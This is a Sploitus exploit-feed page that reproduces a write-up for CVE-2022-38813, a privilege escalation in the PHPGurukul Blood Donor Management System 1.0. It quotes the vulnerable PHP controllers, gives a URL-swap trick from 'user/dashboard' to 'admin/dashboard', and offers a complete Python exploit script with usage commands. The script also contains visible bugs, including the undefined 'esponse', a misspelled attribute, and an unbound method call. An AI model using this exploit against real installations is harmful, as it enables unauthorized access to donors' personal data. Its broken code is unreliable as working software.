 ```yaml
---
title: Exploit for CVE-2022-38813 exploit
url: https://sploitus.com/exploit?id=56570722-D916-5DA0-9CE7-F5874AD6CFE4&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-24
fetch_date: 2025-10-03T20:42:51.576139
---
```


# Exploit for CVE-2022-38813 exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Exposure of Resource to Wrong Sphere in Phpgurukul\_Blood\_Donor\_Management\_System\_Project Phpgurukul\_Blood\_Donor\_Management\_System CVE-2022-38813

2022-10-23 | CVSS 8.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=56570722-D916-5DA0-9CE7-F5874AD6CFE4
# CVE-2022-38813

Veritical Privilege Escalation via user parameter in Blood Donor Management System Using Codeigniter v 1.0

![CVE-2022-38813](https://user-images.githubusercontent.com/65374016/197400348-7c063a8f-3f30-4683-8839-97d6b52f33e5.png)

# Technical description:

Blood Donor Management System 1.0 does not properly restrict access to admin/dashboard.php, which allows attackers to access all data of users, delete the users, add and manage Blood Group, and Submit Report.

## Affected components - Source Code

in following Source Code we can see that user/dashboard does not properly restrict an user paramters so attacker can change that paramter to admin parameter and gain access the admin account

Vulnerable Page - Dashboard.php in User & Dashboard.php in Admin

```php
  // Dashboard.php in User
class Dashboard extends CI_Controller
{
	//Validating login
	function __construct()
	{
		parent::__construct();
		if (!$this->session->userdata('uid'))
			redirect('user/login');
	}

	public function index()
	{
		$this->load->view('user/dashboard');
	}
}

```

###### Change user paramter to admin in url ie: localhost/blood/user/dashboard to localhost/blood/admin/dashboard

```php
  // Dashboard.php in Admin
load->model('admin/Dashboard_Model', 'adminn');
		$totalusercount = $this->adminn->totalusercount();
		$totalbloodgroupcount = $this->adminn->totalbloodgroupcount();
		$this->load->view('admin/dashboard', ['totalusercount' => $totalusercount, 'totalbloodgroupcount' => $totalbloodgroupcount]);
	}
}

```

# Exploit

```python
import argparse
import requests
from termcolor import cprint
import sys
from bs4 import *
color = "green"
cprint("[+] CVE-2022-38813 Authenticated Privilege Escalation in Blood Donor Management System v1.0", color)
cprint("[+] Author: RashidKhan Pathan aka iHexCoder", color)
cprint("[!] Usage: run exploit.py username password payload", color)
cprint("[!] Example: python3 exploit.py admin johndoe@gmail.com Test@123", color)

class PrivilegeEscalation:
    color = "green"

    def __init__(self, username, password, payload):
        self.username = username
        self.password = password
        self.paylaod = payload

    def authentication(self):
        color = "green"
        cprint("[+] Authenticating User", color)
        cprint("[+] Username: " + args.username, color)
        cprint("[+] Password: " + args.password, color)
        cprint("[+] Payload: " + args.payload, color)

        login_url = "http://localhost/blood/user/login"

        data = {
            "email": args.username,
            "password": args.password
        }
        login_response = requests.post(login_url, data=data)

        cprint("[+] Exploiting...Started", color)
        if "/user/login" in login_response.url:
            cprint("[+] Credentials is not Valid", "red")
            sys.exit(1)
        else:
            cprint("[+] Authenticated Successfully as a Normal User ", color)
            cprint("[+] Normal User URL Endpoint " + login_response.url, color)

        url = args.payload
        if args.payload != "admin":
            cprint("[+] Please Add Valid Payload", "red")
            sys.exit(1)

        response = requests.get(f"http://localhost/blood/{url}/dashboard")
        cprint("[+] Exploit Compleated", color)
        cprint("[+] Accessed Admin Panel Successfully " + response.url, color)
        cprint("[+] Copy the URL and Replace with user/dashboard URL with " +  esponse.url, color)
        cprint("[+] After Replacing it You Should see the Bypassed Admin Panel", color)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("username", help="Please Add Username", type=str)
    parser.add_argument("password", help="Please Add Password", type=str)
    parser.add_argument("payload", help="Please Add Password", type=str)
    args = parser.parse_args()

    privilegeEscalation = PrivilegeEscalation
    privilegeEscalation.authentication((args.username, args.password, args.payload))

```

# CVE-2022-38813.py usage -

```sh
# Changes The Vulnerable user paramter from url to escalate privileges normal user to admin -
python3 CVE-2022-38813.py
```

## Example -

```sh
python CVE-2022-38813.py johndoe@gmail.com Test@123 admin
```

# Exploit Proof of concept (Poc) -

![Screenshot 2022-10-23 194928](https://user-images.githubusercontent.com/65374016/197400391-1c07de7d-3433-4d3e-a35a-952f9efc1cfb.png)

# References -

Software Link: https://phpgurukul.com/blood-donor-management-system-using-codeigniter

# Discovered & Developed by -

RashidKhan Pathan (iHexCoder), 9 September 2022.
Twitter: @itRashid
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)